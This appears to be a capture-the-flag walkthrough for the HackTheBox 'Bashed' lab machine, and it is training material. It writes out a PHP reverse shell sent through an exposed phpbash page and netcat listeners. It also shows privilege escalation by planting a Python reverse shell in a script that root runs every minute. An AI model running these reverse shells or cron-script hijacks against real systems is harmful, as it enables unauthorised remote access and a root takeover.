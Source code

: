 ## Initial Exploit - 
***
The page at **http://10.129.84.164/dev/phpbash.php** will execute php commands supplied by the user. Set up a listener:  
> sudo nc -lvnp 80

Send a reverse shell:  
> php -r '$sock=fsockopen("10.10.16.16",80);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

The shell returns as www-data.

<div style="page-break-after: always;"></div>

## Privilege Escalation - 
***
www-data can run any command as the user scriptmanager. Spawn a shell as scriptmanager:  
> sudo -u scriptmanager /bin/bash

The scriptmanager user owns the script **/scripts/test.py** that root executes every minute. Add a shell to the file:  
```
import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.16",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```
![](/home/kali/Walkthroughs/HackTheBox/bashed/images/priv.png)

Set up a listener:  
> sudo nc -lvnp 80

The shell returns as root.

<div style="page-break-after: always;"></div>

## Proof - 
***
### User:

![](/home/kali/Walkthroughs/HackTheBox/bashed/images/user.png)

### Root:

![](/home/kali/Walkthroughs/HackTheBox/bashed/images/root.png)